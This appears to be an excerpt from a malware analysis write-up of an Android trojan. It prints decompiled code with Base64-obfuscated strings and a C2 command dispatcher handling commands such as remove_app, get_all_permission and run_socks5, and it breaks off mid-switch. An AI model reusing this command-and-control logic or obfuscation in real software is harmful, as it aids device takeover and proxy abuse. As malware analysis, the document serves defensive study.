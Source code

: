 ```cs
                else {
                    try {  // application
                        jSONObject0.put(gtzkggpuaqjntiao.this.a("ZTljODJjYThkNzM1NjAyMWEwYTMxNQ=="), gtzkggpuaqjntiao.this.f);  // application
                        jSONObject0.put(gtzkggpuaqjntiao.this.a("ZWNkOTI4YTU="), s);  // data
                    }
                    catch(JSONException unused_ex) {
                    }

                    i i0 = gtzkggpuaqjntiao.this.b;
                    Context context0 = this.mContext;
                    String s4 = gtzkggpuaqjntiao.this.g;
                    String s5 = jSONObject0.toString();
                    try {
                        String s6 = i0.j(context0, s4);
                        if(s6.isEmpty()) {
                            i0.e(context0, s4, s5);
                        }
                        else {
                            JSONObject jSONObject1 = new JSONObject(s6);
                            JSONObject jSONObject2 = new JSONObject(s5);
                            String s7 = jSONObject1.getString("data");
                            String s8 = jSONObject1.getString("data");
                            s5 = jSONObject2.getString("data");
                            i0.a("str_getParams", String.valueOf(s7));
                            i0.a("str_params", String.valueOf(s5));
                            JSONObject jSONObject3 = i.a(new JSONObject(s7), new JSONObject(s5));
                            JSONObject jSONObject4 = new JSONObject();
                            jSONObject4.put("application", s8);
                            jSONObject4.put("data", jSONObject3.toString());
                            i0.a("mergedJSON", jSONObject4.toString());
                            i0.e(context0, s4, jSONObject4.toString());
                        }
                    }
                    catch(Exception unused_ex) {
                        i0.a("JSON", "ERROR SettingsToAddJson");
                        i0.e(context0, s4, s5);
                    }
```

# Commands

These are all the commands which are received from the C2 server to the malware to do the malicious actions.

```cs
 jwozx0.a.a(s, jwozx0.a("ZWZkZDI4ZTRjYzIzNmYwYWFhYTExZjA5MWU=") + jSONObject3.toString());  // get run_cmd: 
                jSONObject5 = new JSONObject(new String(Base64.decode(jSONObject3.getString(jwozx0.a("ZWNkOTI4YTU=")), 0), "UTF-8"));  // data
                String s25 = jSONObject5.getString(jwozx0.a("ZWJkNTM4"));  // cmd
                switch(s25) {
                    case "remove_app": {
                        goto label_1633;
                    }
                    case "get_all_permission": {
                        goto label_1761;
                    }
                    case "run_socks5": {
                        goto label_1764;
                    }
                    case "notification": {
                        goto label_1383;
```